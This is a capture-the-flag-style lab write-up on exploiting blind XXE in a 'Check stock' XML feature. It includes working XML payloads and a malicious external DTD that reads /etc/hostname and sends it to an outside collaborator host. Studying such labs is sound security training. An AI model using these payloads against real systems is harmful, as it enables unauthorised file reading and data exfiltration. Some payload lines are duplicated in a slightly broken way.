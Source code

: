 # Exploiting blind XXE to exfiltrate data using a malicious external DTD
# Objective
This lab has a "Check stock" feature that parses XML input but does not display the result.\
To solve the lab, exfiltrate the contents of the `/etc/hostname` file. 

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format. Moreover application have `Submit feedback` feature. Data from client is send in `Content-Type: multipart/form-data;`.

|![](Images/image-12.png)|
|:--:| 
| *Check stock request* |
|![](Images/image-12.png)|
| *Submit feedback request* |

## Exploitation
### Verificationn of blind out-of-band XXE 
The XML parameter injection (out-of-band request) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<id>.oastify.com"> %xxe; ]>
<stockCheck><productId>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

|![](Images/image-14.png)|
|:--:| 
| *XXE injection - out-of-band request* |
|![](Images/image-15.png)|
| *XXE injection - out-of-band request* |

### Data exfiltration via blind XXE using malicious external DTD
Data exfiltration via blind XXE using malicious external DTD can be performed using the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://exploit-<id>.exploit-server.net/malicious.dtd"> %xxe; ]>
<stockCheck><productId>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Exploit server configuration:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<id>.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

> [!CAUTION]
> This technique might not work with some file contents, including the newline characters for example contained in the `/etc/passwd` file.

|![](Images/image-17.png)|
|:--:| 
| *Exploit server configuration* |
|![](Images/image-16.png)|
| *Blind XXE injection with malicious external DTD* |
|![](Images/image-18.png)|
| *Blind XXE injection with malicious external DTD* |
